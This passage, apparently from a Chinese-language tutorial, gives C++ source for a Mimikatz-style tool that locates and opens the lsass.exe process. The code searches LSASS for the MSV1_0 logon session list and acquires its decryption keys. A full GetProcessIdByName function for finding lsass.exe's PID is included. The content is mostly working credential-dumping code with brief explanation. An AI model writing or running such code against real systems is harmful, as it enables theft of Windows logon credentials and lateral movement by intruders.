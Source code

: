 ```c++
	else
		wprintf(L"[-] Lsass Process Not Found.");

	cLsass.osContext.MajorVersion = NT_MAJOR_VERSION;
	cLsass.osContext.MinorVersion = NT_MINOR_VERSION;
	cLsass.osContext.BuildNumber = NT_BUILD_NUMBER & 0x00007fff;

	if (GetVeryBasicModuleInformations(cLsass.hProcess) && Lsass_Msv1_0_Package.Module.isPresent)
	{
		if (LsaSearchGeneric(&cLsass, &Lsass_Msv1_0_Package.Module, LsaSrvReferences, ARRAYSIZE(LsaSrvReferences), (PVOID*)&LogonSessionList, (PVOID*)&LogonSessionListCount, NULL)
			&& Lsass_Msv1_0_Package.Module.isInit)
		{
			if (LsaInitializeProtectedMemory())
				status = AcquireKeys(&cLsass, &Lsass_Msv1_0_Package.Module.Informations);
		}
	}
	return status;
}
```

在该函数内部，首先调用自定义函数 `GetProcessIdByName()` 获取 lsass.exe 进程的 PID，通过 `OpenProcess()` 打开 lsass.exe 进程的句柄后保存到 `cLsass.hProcess` 中。

### 2.1.1 获取 lsass.exe 进程 PID

编写 `GetProcessIdByName()` 函数，该函数内部调用 `CreateToolhelp32Snapshot()` 函数拍摄进程快照，并通过 `Process32First()` 和 `Process32Next()` 函数遍历快照，获取目标进程的 PID。

```c++
DWORD GetProcessIdByName(LPCWSTR processName)
{
	// Create toolhelp snapshot.
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 process;
	ZeroMemory(&process, sizeof(process));
	process.dwSize = sizeof(process);

	// Walkthrough all processes.
	if (Process32FirstW(hSnapshot, &process))
	{
		do
		{
			// Compare process.szExeFile based on format of name, i.e., trim file path
			// trim .exe if necessary, etc.
			if (_wcsicmp(process.szExeFile, processName) == 0)
			{
				return process.th32ProcessID;
			}
		} while (Process32NextW(hSnapshot, &process));
	}

	CloseHandle(hSnapshot);
	return 0;
}
```
